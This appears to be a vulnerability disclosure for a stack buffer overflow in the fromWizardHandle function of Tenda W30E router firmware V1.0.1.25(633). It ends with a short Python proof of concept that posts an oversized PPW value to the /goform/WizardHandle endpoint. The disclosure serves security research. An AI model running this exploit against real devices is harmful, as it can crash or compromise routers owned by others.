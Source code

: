 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `fromWizardHandle` function. This function accepts the `WANT`and `WANS` parameter from a POST request. Within `v46 == 2`, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3AD5C(v30, v5);`. However, since the user has control over the input of `PPW`, the function `sub_3AD5C()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, thus triggering this security vulnerability.

![image-20240409104408560](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409104408560.png)

![image-20240409104429616](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409104429616.png)

![image-20240409104441718](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409104441718.png)

![image-20240409104454317](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409104454317.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WizardHandle"
payload = b"a"*1000

data = {"WANS":"0","WANT":"2","PPW": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)